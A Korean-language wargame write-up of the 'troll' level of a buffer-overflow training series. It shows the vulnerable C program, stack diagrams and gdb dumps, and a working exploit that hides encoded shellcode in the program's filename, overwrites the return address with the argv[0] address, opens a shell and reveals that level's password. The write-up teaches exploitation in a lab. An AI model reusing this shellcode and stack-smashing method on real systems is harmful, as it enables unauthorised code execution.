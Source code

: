 ============================================================================================================
[redhat-lob] (8) troll
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[0] address"];
    }

|

Source Code
============================================================================================================

.. code-block:: c

	#include <stdio.h>
	#include <stdlib.h>

	extern char **environ;

	main(int argc, char *argv[])
	{
		char buffer[40];
		int i;

		// here is changed
		if(argc != 2){
			printf("argc must be two!\n");
			exit(0);
		}

		// egghunter
		for(i=0; environ[i]; i++)
			memset(environ[i], 0, strlen(environ[i]));

		if(argv[1][47] != '\xbf')
		{
			printf("stack is still your friend.\n");
			exit(0);
		}

		// check the length of argument
		if(strlen(argv[1]) > 48){
			printf("argument is too long!\n");
			exit(0);
		}

		strcpy(buffer, argv[1]);
		printf("%s\n", buffer);

		// buffer hunter
		memset(buffer, 0, 40);

		// one more!
		memset(argv[1], 0, strlen(argv[1]));
	}


|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

	================
	LOW     
	----------------
	Buffer  (40byte)
	SFP     (4byte)
	RET     (4byte)  <- strcpy overflow
	argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
	----------------
	HIGH    
	================


|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]을 초기화하여 argv[1]로 버퍼오버플로우를 진행할 수 없다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함
- argv[1]의 길이가 47이하 이어야 함

.. code-block:: console

	※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
	$ ./troll `python -c 'print "a"*47'`

	stack is still your friend.

	$ ./troll `python -c 'print "a"*47+"\xbf"'`

	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
	Segmentation fault




|

exploit
============================================================================================================

기존 문제와 달리 argv[1]을 초기화 해버리기 때문에 argv[1]로 버퍼오버플로우를 진행할 수 없으므로, argv[0]에 쉘코드를 삽입하고 RET 주소를 argv[0] 주소로 변경하여야 한다.

argv[0]에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 "\x2f" 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않는다.

"\x2f"가 없는 쉘코드로 파일명을 생성하도록 한다.

.. code-block:: console
	
	$ ln troll `python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'`
	$ ls
	troll
	troll.c    
	????????????????????????????????????????????????????????????????????????????????????????????????????▒▒▒t$▒?▒i▒])ɱ?1E??E??▒?▒▒b??|?G?▒Rp▒▒??8{▒?Q??▒▒??-▒ѶO?▒▒▒4@▒QM▒?▒
	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` a

	stack is still your friend.


앞의 조건에 argv[1]을 초기화하기 때문에, gdb를 이용하여 argv[0]이 가리키는 주소를 찾는다.

.. code-block:: console

	(gdb) b *main
	Breakpoint 1 at 0x8048500

	(gdb) r `python -c 'print "a"*47+"\xbf"'`
	Starting program: /home/orge/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒t$▒▒i▒])ɱ
							  1EE▒▒▒▒b▒▒|G▒▒Rp▒▒8{▒Q▒▒▒▒-▒ѶO▒▒▒▒4@▒QM▒▒▒ `python -c 'print "a"*47+"\xbf"'`
	/bin/bash: /home/goblin/.bashrc: Permission denied

	Breakpoint 1, 0x8048500 in main ()

	(gdb) stepi
	0x8048501 in main ()    

	(gdb) i reg $esp
	esp            0xbffff9a8       -1073743448

	(gdb) i reg $ebp
	ebp            0xbffff9c8       -1073743416

	(gdb) x/100x $esp

	==========================================================================
	0xbffff9a8:     0xbffff9c8      0x400309cb      0x00000002      0xbffff9f4
	0xbffff9b8:     0xbffffa00      0x40013868      0x00000002      0x08048450
	0xbffff9c8:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffff9d8:     0xbffff9f4      0x08048390      0x0804866c      0x4000ae60
	0xbffff9e8:     0xbffff9ec      0x40013e90      0x00000002      0xbffffae7
	0xbffff9f8:     0xbffffb9d      0x00000000      0xbffffbce      0xbffffbf0
	0xbffffa08:     0xbffffbfa      0xbffffc08      0xbffffc27      0xbffffc34
	0xbffffa18:     0xbffffc4d      0xbffffc69      0xbffffc88      0xbffffc93
	0xbffffa28:     0xbffffca1      0xbffffce3      0xbffffcf3      0xbffffd08
	0xbffffa38:     0xbffffd18      0xbffffd22      0xbffffd40      0xbffffd4b
	0xbffffa48:     0xbffffd5c      0xbffffd6b      0xbffffd7a      0xbffffd83
	0xbffffa58:     0x00000000      0x00000003      0x08048034      0x00000004
	0xbffffa68:     0x00000020      0x00000005      0x00000006      0x00000006
	0xbffffa78:     0x00001000      0x00000007      0x40000000      0x00000008
	0xbffffa88:     0x00000000      0x00000009      0x08048450      0x0000000b
	0xbffffa98:     0x000001fb      0x0000000c      0x000001fb      0x0000000d
	0xbffffaa8:     0x000001fb      0x0000000e      0x000001fb      0x00000010
	0xbffffab8:     0x0fabfbff      0x0000000f      0xbffffae2      0x00000000
	0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffad8:     0x00000000      0x00000000      0x36690000      0x2f003638
	0xbffffae8:     0x656d6f68      0x67726f2f      0x90902f65      0x90909090
	0xbffffaf8:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb08:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb18:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb28:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb38:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb48:     0x90909090      0x90909090      0x90909090      0xc5d99090
	0xbffffb58:     0xf42474d9      0x69c315b8      0xc9295dd7      0x45310bb1
	0xbffffb68:     0x1a45031a      0xe204c583      0x8f62a9e0      0x47137c93
	0xbffffb78:     0x7052e38e      0x1717ccb8      0x85f77b38      0xa98e1551
	0xbffffb88:     0x2d9801f3      0x4fb6d1f3      0xfce7bf9a      0x51af4034
	0xbffffb98:     0xd682a14d      0x61616100      0x61616161      0x61616161
                                          ^               ^               ^	
	0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^               ^
	0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^ argv[0] = 0xbffffbbf
	==========================================================================

|

RET 주소를 argv[0] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[0] address
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[0]의 주소로 변경하여 해당 쉘코드가 실행되도록 한다. argv[0]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

filename : nop (100 byte) + shellcode (70 byte) 

argv[1] : nop (19 byte) + shellcode (25 byte) + argv[0] address



.. code-block:: console

	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` `python -c 'print "\x90"*44 + "\xbf\xfb\xff\xbf"'`
	▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
										   ̀▒▒▒▒

	bash$ whoami
	troll
	bash$ my-pass
	euid = 508
	aspirin
